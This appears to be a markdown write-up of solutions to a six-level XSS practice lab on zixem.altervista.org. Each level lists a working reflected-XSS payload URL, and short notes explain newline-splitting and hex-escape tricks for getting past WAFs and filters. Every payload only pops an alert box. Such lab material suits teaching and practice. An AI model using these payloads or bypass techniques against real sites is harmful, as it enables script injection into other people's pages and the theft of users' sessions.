 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads.

